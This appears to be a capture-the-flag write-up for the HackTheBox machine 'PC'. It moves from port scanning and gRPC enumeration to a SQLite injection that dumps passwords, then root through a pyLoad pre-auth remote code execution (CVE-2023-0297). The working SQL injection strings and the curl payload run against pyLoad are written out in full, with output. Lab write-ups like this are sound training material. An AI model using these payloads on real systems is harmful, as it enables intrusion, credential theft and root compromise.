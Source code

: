 ### Basic infor
* https://app.hackthebox.com/machines/PC
* IP: 10.10.11.214
### Scan
TCP: 
```bash
#rustscan -t 1500 -b 1500 --ulimit 65000 -a 10.10.11.214 -- -sV -sC -oN nmap.txt
#Nmap 7.92 scan initiated Sun May 21 09:36:08 2023 as: nmap -vvv -p 22,50051 -sV -sC -oN nmap.txt -Pn 10.10.11.214
Nmap scan report for 10.10.11.214 (10.10.11.214)
Host is up, received user-set (0.069s latency).
Scanned at 2023-05-21 09:36:08 +07 for 20s

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
50051/tcp open  unknown syn-ack

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 21 09:36:28 2023 -- 1 IP address (1 host up) scanned in 20.53 seconds
```

##### Recon

from the port. google first a few bytes
```bash
00000000: 0000 1804 0000 0000 0000 0400 3fff ff00 ............?... 
00000010: 0500 3fff ff00 0600 0020 00fe 0300 0000 ..?...... ...... 
00000020: 0100 0004 0800 0000 0000 003f 0000      ...........?..
```

=> port 50051: gRPC. 

[fullstorydev/grpcui: An interactive web UI for gRPC, along the lines of postman (github.com)](https://github.com/fullstorydev/grpcui) 

```bash


# lỗi biến môi trường
[grpc - grpcui: command not found - Stack Overflow](https://stackoverflow.com/questions/64483034/grpcui-command-not-found)

grpcui -plaintext 10.10.11.214:50051

```

after Login with `admin:admin` . The response

```json
{
  "message": "Your id is 439."
}

b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODQ2NTAxNDV9.whHUQcZrxATSTMfQRXEIShcDNBKVJuRCnS8GuHVr168'
```

add token header, getInfor()

![[Pasted image 20230521103605.png]]

##### SQLite Injection
[PayloadsAllTheThings/SQLite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) .

```json

"id":"0 union select sqlite_version();"
// response
message": "3.31.1

"id" : "0 union SELECT GROUP_CONCAT(password) from accounts" 
// response
"message": "admin,HereIsYourPassWord1431,asdf"

"id" : "and 0 union SELECT GROUP_CONCAT(username) from accounts"
// response
"message": "admin,sau"
```

creds `sau:HereIsYourPassWord1431` 
##### User
```bash
┌─[loc@parrot]─[~/HackTheBox/Easy/PC]
└──╼ $ssh sau@10.10.11.214
The authenticity of host '10.10.11.214 (10.10.11.214)' can't be established.
ECDSA key fingerprint is SHA256:1g85rB6ht6M95bNqeghJZT5nAhCfSdKOoWWx7TE+5Ck.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.214' (ECDSA) to the list of known hosts.
sau@10.10.11.214's password: 
Last login: Sat May 20 23:45:07 2023 from 127.0.0.1
-bash-5.0$ id & hostname
[1] 22831
pc
-bash-5.0$ uid=1001(sau) gid=1001(sau) groups=1001(sau)
```

8000 port open on localhost, seem interesting. 

```bash
bash-5.0$ netstat -tulwn 
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN     
tcp6       0      0 :::50051                :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
udp        0      0 127.0.0.53:53           0.0.0.0:*                          
udp        0      0 0.0.0.0:68              0.0.0.0:*                         
```

Portfoward using SSH

```bash
ssh sau@10.10.11.214 -L 8000:127.0.0.1:8000
```

pyLoad
![[Pasted image 20230521104945.png]]

#### Root
```bash
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"<UrlEncode_cmd>");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
```

reverse shell is not needed, a simple SUID bash works fine.
RCE to `chmod u+s /bin/bash,` and after execute `/bin/bash -p`

Testing create a /tmp/pwndLoc
```bash
┌─[✗]─[loc@parrot]─[~]
└──╼ $curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwndLoc\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Sun, 21 May 2023 04:01:52 GMT
Server: Cheroot/8.6.0

Could not decrypt key┌─[loc@parrot]─[~]
```

```bash
-bash-5.0$ ls -la /tmp
total 872
drwxrwxrwt 15 root root   4096 May 21 04:01 .
drwxr-xr-x 21 root root   4096 Apr 27 15:23 ..
drwxrwxrwt  2 root root   4096 May 20 19:00 .ICE-unix
drwxrwxrwt  2 root root   4096 May 20 19:00 .Test-unix
drwxrwxrwt  2 root root   4096 May 20 19:00 .X11-unix
drwxrwxrwt  2 root root   4096 May 20 19:00 .XIM-unix
drwxrwxrwt  2 root root   4096 May 20 19:00 .font-unix
-rwxrwxr-x  1 sau  sau  828145 Feb 19 04:30 linpeas.sh
-rw-r--r--  1 root root      0 May 21 04:01 pwndLoc
drwxr-xr-x  4 root root   4096 May 20 19:00 pyLoad
drwx------  3 root root   4096 May 20 19:00 snap-private-tmp
drwx------  3 root root   4096 May 20 19:00 systemd-private-bd799cc0e79b420c893f5785258585a7-ModemManager.service-IS0sdj
drwx------  3 root root   4096 May 20 19:00 systemd-private-bd799cc0e79b420c893f5785258585a7-systemd-logind.service-wbaUVg
drwx------  3 root root   4096 May 20 19:00 systemd-private-bd799cc0e79b420c893f5785258585a7-systemd-resolved.service-0ekU2h
drwx------  2 root root   4096 May 20 19:00 tmpti58e57e
drwx------  2 sau  sau    4096 May 20 23:28 tmux-1001
drwx------  2 root root   4096 May 20 19:00 vmware-root_737-4257003961

```

#### Additional references
- [Pre-auth RCE vulnerability found in pyload (huntr.dev)](https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/)
- [bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad: CVE-2023-0297](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad) 